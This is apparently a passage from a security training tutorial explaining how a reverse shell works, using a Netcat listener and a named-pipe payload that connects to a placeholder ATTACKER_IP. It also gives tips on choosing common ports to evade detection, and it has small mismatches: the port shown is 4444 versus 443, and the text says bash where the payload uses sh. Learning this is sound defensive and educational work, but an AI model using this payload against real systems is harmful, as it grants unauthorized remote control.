 #### Set up a Netcat (nc) Listener

Let's now understand how a reverse shell works in a practical scenario using the tool Netcat. This utility supports multiple OSs and allows reading and writing through a network.

As mentioned above, a reverse shell will connect back to the attacker's machine. This machine will be waiting for a connection, so let's use Netcat to listen to a connection using the following command `nc -lvnp 443`.

```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 4444 ...
```

The command above uses the `-l` option to indicate Netcat to listen or wait for a connection. The `-v` option enables verbose mode. The `-n` option prevents the connections from using DNS for lookup, so it will not resolve any hostname it will use an IP address. Finally, the `-p` flag indicates the port that will be used to wait for the connection, in the case above, port 443.

Any port can be used to wait for a connection, but attackers and pentesters tend to use known ports used by other applications like 53, 80, 8080, 443, 139, or 445. This is to blend the reverse shell with legitimate traffic and avoid detection by security appliances.

#### Gaining Reverse Shell Access

Once we have our listener set, the attacker should execute what is known as a reverse shell payload. This payload usually abuses the vulnerability or unauthorized access granted by the attacker and executes a command that will expose the shell through the network. There's a variety of payloads that will depend on the tools and OS of the compromised system. We can explore some of them here.

As an example, let's analyze an example payload named a pipe reverse shell, as shown below.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

#### Explanation of the Payload

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.

- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO (first-in, first-out), at /tmp/f. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.

- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.

- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring that error messages are sent back to the attacker.

- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` - This part pipes the shell's output through `nc` (Netcat) to the attacker's IP address (`ATTACKER_IP`) on the attacker's port (`ATTACKER_PORT`).

- `>/tmp/f` -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.

The payload above can expose the shell `bash` through the network to the desired listener.
